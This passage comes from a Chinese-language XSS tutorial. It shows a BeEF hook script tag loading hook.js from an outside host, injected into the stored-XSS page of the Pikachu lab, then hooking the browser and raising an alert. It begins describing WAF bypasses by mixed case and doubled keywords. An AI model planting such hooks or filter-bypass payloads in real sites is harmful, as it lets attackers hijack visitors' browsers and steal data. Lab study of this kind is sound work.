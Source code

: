 ## **3.5 Beef案例测试**

### **3.5.1 插入构造代码**

将\<script src="http://192.168.10.20:3000/hook.js">\</script>代码插入pikache靶场的存储型xss中。

![img](https://s2.loli.net/2023/03/13/Pp3FNivEqrJmAWM.jpg) 

### **3.5.2 靶机上线**

通过从Beef工具上看，已经获取到靶机的相关信息了。

![img](https://s2.loli.net/2023/03/13/FyqMzrtUbJRfchp.jpg) 

### **3.5.3 弹窗测试**

在"Brower"下面的"Hooked Domain"的create Alert Dialog（弹窗 ），在alert txt中输入你想要弹出来的内容，然后进行执行。

![img](https://s2.loli.net/2023/03/13/k7ZNVzj91oHenYK.jpg) 

弹窗效果

![img](https://s2.loli.net/2023/03/13/I8qRxnfZK6Tyt5U.jpg) 

# **4 WAF绕过**

## **4.1 大小写绕过**

html对于大小写不敏感，可以利用大小写混淆过去。

示例：

\<script>alert(“xss”);\</script>

替换：

\<ScRipt>ALeRt(“XSS”);\</sCRipT>

 

## **4.2 双写绕过**

在一些特定的情况下可能会存在某个关键字过滤，就可以尝试使用双写绕过。

示例：

```
$str2=str_replace("script","",$str);

$str3=str_replace("on","",$str2);

$str4=str_replace("src","",$str3);

$str5=str_replace("data","",$str4);

$str6=str_replace("href","",$str5);
```
